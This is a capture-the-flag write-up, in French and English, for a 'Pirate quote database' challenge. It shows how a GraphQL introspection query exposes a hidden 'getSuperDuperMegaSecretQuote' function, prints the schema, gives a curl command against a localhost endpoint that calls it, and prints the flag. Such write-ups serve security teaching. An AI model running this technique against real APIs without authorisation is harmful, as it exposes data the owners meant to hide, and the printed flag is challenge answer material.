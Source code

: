 # Pirate quote database

## Write-up (fr)

Le siteweb utilise un API [GraphQL](https://graphql.org/) pour obtenir les citations. Si on utilise la requête d'introspection, il est possible de voir qu'il y a une fonction cachée qui retourne le flag.

Voir [ici](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql#introspection) pour la requête d'introspection.

Utiliser cette requête nous retourne le schéma que l'API GraphQL utilise :

```graphql
### SNIP
      "types": [
        {
          "kind": "OBJECT",
          "name": "Query",
          "description": null,
          "fields": [
            {
              "name": "getQuote",
              "description": null,
              "args": [
                {
                  "name": "index",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Int",
                    "ofType": null
                  },
                  "defaultValue": null
                }
              ],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "getRandomQuote",
              "description": null,
              "args": [

              ],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              # vvv On recherche cette requête vvv
              "name": "getSuperDuperMegaSecretQuote",
              "description": null,
              "args": [

              ],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [

          ],
          "enumValues": null,
          "possibleTypes": null
        },
### SNIP
```

On peut utilise cette requête dans l'API GraphQL pour recevoir le flag.

```bash
# Obtenir le flag en utilisant la requête '{getSuperDuperMegaSecretQuote}'
curl -s 'http://127.0.0.1:4000/graphql?query=%7BgetSuperDuperMegaSecretQuote%7D' | \
 jq -r .data.getSuperDuperMegaSecretQuote
```

## Write-up (en)

The website is using a [GraphQL](https://graphql.org/) API to fetch its quotes. If we use the introspection query, we can see that there is a hidden function which returns the flag.

See [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql#introspection) for the introspection query.

Using that query returns us the schema that the GraphQL API is using :

```graphql
# SNIP
      "types": [
        {
          "kind": "OBJECT",
          "name": "Query",
          "description": null,
          "fields": [
            {
              "name": "getQuote",
              "description": null,
              "args": [
                {
                  "name": "index",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Int",
                    "ofType": null
                  },
                  "defaultValue": null
                }
              ],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              "name": "getRandomQuote",
              "description": null,
              "args": [

              ],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            },
            {
              # vvv We are looking for this query vvv
              "name": "getSuperDuperMegaSecretQuote",
              "description": null,
              "args": [

              ],
              "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
              },
              "isDeprecated": false,
              "deprecationReason": null
            }
          ],
          "inputFields": null,
          "interfaces": [

          ],
          "enumValues": null,
          "possibleTypes": null
        },
# SNIP
```

We can then use this query on the GraphQL API to receive the flag :

```bash
# Get the flag using the query '{getSuperDuperMegaSecretQuote}'
curl -s 'http://127.0.0.1:4000/graphql?query=%7BgetSuperDuperMegaSecretQuote%7D' | \
 jq -r .data.getSuperDuperMegaSecretQuote
```

## Flag

`flag-DoNotForgetToDisableIntrospection`
